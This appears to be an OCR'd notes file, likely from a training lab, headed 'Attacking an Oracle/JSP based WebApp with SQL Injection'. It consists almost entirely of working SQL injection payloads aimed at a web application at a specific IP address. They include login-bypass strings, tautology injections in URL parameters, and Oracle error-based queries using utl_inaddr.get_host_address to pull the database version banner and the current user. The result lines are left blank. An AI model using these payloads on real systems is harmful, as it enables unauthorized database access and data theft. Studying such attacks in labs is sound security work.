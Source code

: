  
 
 
 
 
 
###########################################################
# Attacking an Oracle/JSP based WebApp with SQL Injection #
###########################################################
 
 
 
 
 
http://54.69.156.253:8081/bookcompany/
 
 
user:   a' OR 'a'='a
pass:   a' OR 'a'='a
 
 
 
 
 
 
 
http://54.69.156.253:8081/bookcompany/author.jsp?id=111
 
 
[ Search by Username ]  Joe' OR 'a'='a
 
 
 
 
 
 
 
 
 
 
 
 
http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1
 
 
 
http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' OR '1'='1
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' or 1=utl_inaddr.get_host_address((select banner from v$version where rownum=1))--
 
 
Host is running:
 
 
 
 
 
http://54.69.156.253:8081/bookcompany/faq.jsp?id=111&qid=1' or 1=utl_inaddr.get_host_address((SELECT user FROM dual))--
 
User is:
 